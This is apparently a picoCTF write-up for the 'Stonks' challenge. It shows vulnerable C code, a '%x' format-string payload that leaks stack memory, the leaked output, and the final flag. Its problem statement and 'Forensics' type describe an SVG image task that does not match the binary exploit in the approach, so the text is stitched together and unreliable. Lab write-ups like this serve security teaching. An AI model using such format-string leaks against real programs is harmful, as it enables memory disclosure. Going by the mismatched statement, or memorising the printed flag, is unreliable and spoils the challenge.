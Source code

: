 # Stonks

## Problem Statement

Download this image file and find the flag.
[Download image file](https://artifacts.picoctf.net/c/138/drawing.flag.svg)
## Type

Forensics

## Hints

1. Okay, maybe I'd believe you if you find my API key.

## Approach
On reading the code we can see that this statement is vulnerable
```
	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
```
as there is no string formatting which means we can extract hex values.

so we input a bunch of `%x%x%x%x%x%x%x%x` and get 
```8d6f3d0804b00080489c3f7fa3d80ffffffff18d6d160f7fb1110f7fa3dc708d6e18028d6
f3b08d6f3d06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e346364626
1653532ffe0007df7fdeaf8f7fb14405b93470010f7e40ce9f7fb20c0f7fa35c0f7fa3000ffe
08bd8f7e3168df7fa35c08048ecaffe08be40f7fc5f09804b000f7fa3000f7fa3e20ffe08c18
f7fcbd50f7fa48905b934700f7fa3000804b000ffe08c188048c868d6d160ffe08c04ffe08c1
88048be9f7fa33fc0ffe08cccffe08cc41
```
as our token, on converting this we get our flag in big endian, anfter switching the endians we get our flag.



## Flag

picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}